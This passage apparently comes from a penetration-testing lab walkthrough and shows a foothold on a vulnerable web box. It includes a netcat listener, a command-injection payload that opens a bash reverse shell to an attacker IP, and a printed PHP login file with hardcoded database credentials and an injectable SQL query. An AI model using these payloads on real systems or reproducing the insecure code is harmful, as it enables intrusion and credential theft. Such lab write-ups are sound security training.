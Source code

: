 ### 4. Get a shell
Start up a listener on the attacker machine:
```bash
kali@kali:~$ nc -lvnp 9999
Listening on 0.0.0.0 9999
```
Then make a reverse shell payload using bash which is present on the machine.
```bash
10.1.1.74; bash -i >& /dev/tcp/10.1.1.74/9999 0>&1
```
Catch the shell.
```bash
kali@kali:~$ nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 10.1.1.58 49606
bash: no job control in this shell
bash-3.00$ whoami
apache
```

### 5. Enumerate from foothold
The first thing to do when logged in as the web user is enumerate the website files.
```bash
bash-3.00$ ls
index.php
pingit.php
bash-3.00$ cat index.php
<?php
        mysql_connect("localhost", "john", "hiroshima") or die(mysql_error());
        //print "Connected to MySQL<br />";
        mysql_select_db("webapp");

        if ($_POST['uname'] != ""){
                $username = $_POST['uname'];
                $password = $_POST['psw'];
                $query = "SELECT * FROM users WHERE username = '$username' AND password='$password'";
                //print $query."<br>";
                $result = mysql_query($query);

                $row = mysql_fetch_array($result);
                //print "ID: ".$row['id']."<br />";
        }

?>
<html>
<body>
<?php
if ($row['id']==""){
?>
<form method="post" name="frmLogin" id="frmLogin" action="index.php">
        <table width="300" border="1" align="center" cellpadding="2" cellspacing="2">
                <tr>
                        <td colspan='2' align='center'>
                        <b>Remote System Administration Login</b>
                        </td>
                </tr>
                <tr>
                        <td width="150">Username</td>
                        <td><input name="uname" type="text"></td>
                </tr>
                <tr>
                        <td width="150">Password</td>
                        <td>
```